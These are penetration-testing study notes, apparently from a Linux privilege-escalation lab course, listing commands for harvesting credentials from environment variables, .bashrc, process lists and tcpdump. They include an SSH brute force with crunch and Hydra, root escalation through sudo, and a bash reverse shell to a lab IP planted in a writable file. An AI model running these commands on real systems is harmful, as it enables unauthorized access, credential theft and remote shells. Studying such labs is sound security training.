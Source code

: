 ## 17.2. Exposed Confidential Information
### 17.2.1. Inspecting User Trails
#### Inspecting Environment Variables
```Shell
env
```
Sometimes creds may be stored in environment variables
#### Inspecting .bashrc
```Shell
cat .bashrc
```
May contain creds
#### Becoming 'root' user with the leaked credential
```Shell
su - root
```
#### Generating a wordlist for a bruteforce attack
```Shell
crunch 6 6 -t Lab%%% > wordlist
```
#### Brute Force w/ Hydra
```Shell
hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
```
#### Inspecting sudo capabilities
```Shell
sudo -l
```
#### Elevating to root w/ sudo
```Shell
sudo -i
```
#### Modify a file you control to do a rev shell back to a netcat listener
```Bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.155/4444 0>&1
```
### 17.2.2. Inspecting Service Footprints
#### Harvesting Active Processes for Credentials
```Shell
watch -n 1 "ps -aux | grep pass"
```
May find creds for logging in
#### Using tcpdump to Perform Password Sniffing
```Shell
sudo tcpdump -i lo -A | grep "pass"
```
tcpdump cannot be run without sudo permissions. That is because it needs to set up raw sockets in order to capture traffic, which is a privileged operation.
## 17.3. Insecure File Permissions
### 17.3.1. Abusing Cron Jobs
#### Inspecting the cron log file
```Shell
grep "CRON" /var/log/syslog
```
#### Can also look for anything "cron" in `/var` and associated subdirectories